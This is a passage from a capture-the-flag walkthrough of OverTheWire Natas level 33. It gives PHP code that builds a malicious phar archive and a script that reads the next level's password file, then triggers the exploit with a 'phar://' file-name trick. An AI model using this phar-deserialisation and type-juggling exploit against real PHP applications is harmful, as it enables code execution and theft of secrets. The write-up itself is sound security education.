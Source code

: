 To perform this attack, we need to prepare 2 files: `getpassword.php` and `payload.phar`.

`getpassword.php` is a simple php script which reads the password of `natas34`. I used the following:

```php
<?php
echo file_get_contents('/etc/natas_webpass/natas34');
?>
```

`payload.phar` is a php archive file which will contain, in its metadata field, the `Executor` object we want to inject. The following is a script which will help generate `payload.phar`:

```php
<?php

class Executor{
    private $filename = "getpassword.php";
    private $signature = True;
    private $init= False;
}

$obj = new Executor();
@unlink("payload.phar");

$payload = new Phar("payload.phar");
$payload->startBuffering();
$payload->setStub("<?php echo 'natas33'; __HALT_COMPILER();");
$payload->addFromString("test.txt", 'test');
$payload->setMetadata($obj);
$payload->stopBuffering();

?>
```

We see that the `Executor` object is defined with variables which suit our needs: `$filename` is the name of the script which will retrieve the password for us, `getpassword.php`. To save some effort, `$signature` is set to `True` (instead of the md5 hash of `getpassword.php`) to make use of [PHP type juggling](https://secops.group/php-type-juggling-simplified/) (where any string is equal to True when loose comparison is used).

The next step is to upload both `getpassword.php` and `payload.phar` to the website. It doesn't matter in which order; both files will fail the md5 check and hence not execute.

Once these files are uploaded, the final step is to induce desearilisation of the archived `Executor` object in `payload.phar`. We do this by making a request to the server as if we were going to upload a file, but we change the name of the file to 'phar://payload.phar':

[![request to induce deserialisation](/images/otw_natas/natas33-1_final-step.png)](/images/otw_natas/natas33-1_final-step.png)

If we forward the request, we will see a few error messages relating to 'phar://payload.phar', which is to be expected, but we will also see `getpassword.php` being executed, and the password being printed out:
